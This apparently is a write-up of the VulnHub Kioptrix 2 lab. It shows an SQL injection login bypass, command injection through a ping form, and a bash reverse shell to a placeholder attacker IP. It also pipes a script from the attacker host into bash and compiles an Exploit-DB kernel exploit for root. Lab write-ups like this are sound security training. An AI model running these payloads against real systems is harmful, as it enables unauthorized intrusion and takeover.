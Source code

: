 ```yaml
---
title: "Kioptrix 2"
date: 2024-05-05
draft: false
summary: "Writeup for Kioptrix level 2 of the Kioptrix series challenge on VulnHub."
tags: ["kioptrix", "linux", "command injection", "kernel exploit"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/kioptrix2/cover.webp"
  caption: "Kioptrix 2 VulnHub Challenge"
  alt: "Kioptrix 2 cover"
platform: "VulnHub"
---
```


*Kioptrix-2* is the second challenge in the *Kioptrix* series. The object of the game is to acquire root access via any means possible.
<!--more-->
You can download *kioptrix-2* by clicking on the link given below:
- https://www.vulnhub.com/entry/kioptrix-level-11-2,23/

## Recon

I performed a network scan using **nmap** to find the target IP address.

```shell
nmap -sn 192.168.1.0/24
```

After finding the target IP, I launched an **nmap** aggressive scan to find open ports, services running on the ports and additional information about those services.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN nmap.out
```

| **Port** | **Service** |
| -------- | ----------- |
| 22       | ssh         |
| 80       | http        |
| 111      | rpc         |
| 443      | https       |
| 631      | ipp         |
| 658      | cups        |
| 3306     | mysql       |

![](https://cdn.ziomsec.com/kioptrix2/1.webp)
![](https://cdn.ziomsec.com/kioptrix2/2.webp)
![](https://cdn.ziomsec.com/kioptrix2/3.webp)

> The _unauthorized_ label next to the SQL server indicated that remote login was disabled and hence the server could only be accessed locally.

## Initial Foothold

Since port 80 was open, I visited the web application on my browser and found a login page.

![](https://cdn.ziomsec.com/kioptrix2/4.webp)

After trying a few default credentials, I tried performing an SQL injection using some simple payloads. When I entered the below payload in the *username* field, I was able to bypass the entire authentication mechanism.

```
admin' or 1=1#
```

![](https://cdn.ziomsec.com/kioptrix2/5.webp)

After logging in, I got access to a page that allowed me **ping** a machine. I entered the IP of my router and got the ping results in another page.

![](https://cdn.ziomsec.com/kioptrix2/6.webp)

![](https://cdn.ziomsec.com/kioptrix2/7.webp)

The application displayed raw output of the **ping** command. This made me wonder if it was actually executing a system command on the provided input. If it were doing so, I could add another system command and try making it execute that as well.

```
8.8.8.8; ls
```
> `;` is used to execute multiple commands in a single line on linux systems. There are many other ways of executing multiple together.

![](https://cdn.ziomsec.com/kioptrix2/8.webp)

The command that I injected got executed and I was able to view the contents present in the directory being used by the application. Hence I used a **bash** reverse shell payload from **revshells** to get a reverse shell from the target on my listener.
 - https://www.revshells.com/

![](https://cdn.ziomsec.com/kioptrix2/9.webp)

I then started a netcat listener on my PC using **nc**.

```bash
rlwrap nc -lnvp 443
```

Finally I executed the payload and got reverse shell

```shell
8.8.8.8; bash -i >& /dev/tcp/KALI_IP/PORT 0>&1
```

![](https://cdn.ziomsec.com/kioptrix2/10.webp)

I got a shell as a service user.

## Privilege Escalation

### Enumeration

While exploring, I discovered two users, _john_ and _harold_. However, I couldn't access their directories.

![](https://cdn.ziomsec.com/kioptrix2/11.webp)

To ease up enumeration, I downloaded the **linux Smart Enumeration** script on the target system and ran it.

```shell
# after downloading lse.sh on local system, start an http server
python3 -m http.server 8080

# run it on the target by piping the output of curl to bash
curl http://KALI:8080/lse.sh | /bin/bash
```

![](https://cdn.ziomsec.com/kioptrix2/12.webp)

![](https://cdn.ziomsec.com/kioptrix2/13.webp)

I found the following SUID binaries, but unfortunately, they didn't seem exploitable.

![](https://cdn.ziomsec.com/kioptrix2/14.webp)

I double-checked my kernel version:

```shell
uname -a
```

![](https://cdn.ziomsec.com/kioptrix2/15.webp)

The **lse** script also revealed that the target was running **CentOS**, so I searched for exploits related to it on **Exploit DB**.

```shell
searchsploit 'Centos 2.6.9'
```

![](https://cdn.ziomsec.com/kioptrix2/16.webp)

### Exploiting Kernel

I downloaded the exploit and transferred it to the target system.

```shell
# on local system
searchsploit -m 'linux_x86/local/9542.c'
python3 -m http.server 8080

# on target system
wget http://KALI:8080/9542.c
```


![](https://cdn.ziomsec.com/kioptrix2/17.webp)

![](https://cdn.ziomsec.com/kioptrix2/18.webp)

After downloading it, I compiled it using **gcc** and ran it to get a shell as **root**.

```shell
gcc 9542.c
./a.out
```

![](https://cdn.ziomsec.com/kioptrix2/19.webp)

## Closure

Here's how I pwned Kioptrix-2:
- First, I spotted port 80 running on the target.
- Visiting it revealed a login panel.
- I bypassed the authentication mechanism with SQL injection and landed on a page that allowed to perform ping.
- I then exploited a command injection vulnerability and got a reverse shell.
- Finally, a kernel exploit got me root access.

That's it from my side :) Happy Hacking!

---
